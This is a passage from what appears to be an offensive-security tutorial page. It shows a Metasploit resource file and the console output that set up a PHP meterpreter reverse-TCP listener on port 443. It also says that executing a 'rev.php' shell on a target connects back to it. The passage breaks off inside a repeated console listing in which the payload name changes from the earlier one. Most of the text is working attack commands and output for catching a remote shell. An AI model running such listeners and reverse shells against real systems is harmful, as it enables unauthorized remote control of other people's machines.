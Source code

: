 <p style="text-align:justify;">
Then we will run a metasploit multi / handler in order to run our meterpreter listener. First we will create the <b>handler.rc</b> file as follows 
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
use multi/handler
set LHOST 192.168.201.7
set LPORT 443
set payload php/meterpreter_reverse_tcp
set ExitOnSession false
exploit -j -z
</pre>

<p style="text-align:justify;">
Then we will run the script above and the listener will be ready to accept connections as shown below
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>/home/kali/Desktop</b></span># msfconsole -q -r handler.rc
[*] Processing handler.rc for ERB directives.
resource (handler.rc)> use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (handler.rc)> set LHOST 192.168.201.7
LHOST => 192.168.201.7
resource (handler.rc)> set LPORT 443
LPORT => 443
resource (handler.rc)> set payload php/meterpreter_reverse_tcp
payload => php/meterpreter_reverse_tcp
resource (handler.rc)> set ExitOnSession false
ExitOnSession => false
resource (handler.rc)> exploit -j -z
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.201.7:443
msf6 exploit(multi/handler) >
</pre>

<p style="text-align:justify;">
After executing the <b>rev.php</b> shell we will have a reverse tcp connection as follows 
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>/home/kali/Desktop</b></span># msfconsole -q -r handler.rc
[*] Processing handler.rc for ERB directives.
resource (handler.rc)> use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (handler.rc)> set LHOST 192.168.201.7
LHOST => 192.168.201.7
resource (handler.rc)> set LPORT 443
LPORT => 443
resource (handler.rc)> set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
